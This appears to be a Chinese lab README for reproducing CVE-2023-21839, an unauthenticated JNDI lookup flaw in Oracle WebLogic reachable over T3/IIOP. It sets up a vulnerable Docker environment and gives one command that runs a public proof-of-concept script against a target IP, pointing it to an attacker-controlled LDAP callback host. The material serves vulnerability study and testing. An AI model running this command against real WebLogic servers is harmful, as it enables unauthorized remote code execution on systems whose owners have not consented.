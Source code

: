 # WebLogic未授权远程代码执行漏洞 (CVE-2023-21839)

Oracle WebLogic Server是业界广泛使用的Java EE企业级应用服务器。

在[Oracle 2023年1月安全公告](https://www.oracle.com/security-alerts/cpujan2023.html)中，Oracle修复了影响WebLogic Server 12.2.1.3.0、12.2.1.4.0和14.1.1.0.0版本的严重安全漏洞CVE-2023-21839。

该漏洞允许未授权远程攻击者通过T3或IIOP协议发起JNDI lookup操作。如果JDK版本过低或本地存在可用的反序列化gadget（javaSerializedData），攻击者可进一步实现远程代码执行（RCE）。

参考链接：

- <https://www.oracle.com/security-alerts/cpujan2023.html>
- <https://nvd.nist.gov/vuln/detail/CVE-2023-21839>
- <https://github.com/houqe/POC_CVE-2023-21839>

## 环境设置

执行以下命令启动WebLogic Server 12.2.1.3漏洞环境：

```
docker compose up -d
```

启动完成后，访问`http://your-ip:7001/console`可以看到WebLogic管理控制台登录页。

## 漏洞复现

你可以使用公开的POC工具<https://github.com/houqe/POC_CVE-2023-21839>进行漏洞复现。


```shell
python CVE-2023-21839.py -ip 192.168.25.129 -p 7001 -l ldap://craft.ldap.tld/test
```

漏洞利用成功后，可在DNSLog平台或LDAP服务端看到来自目标服务器的请求，如下图所示：

![](1.png)
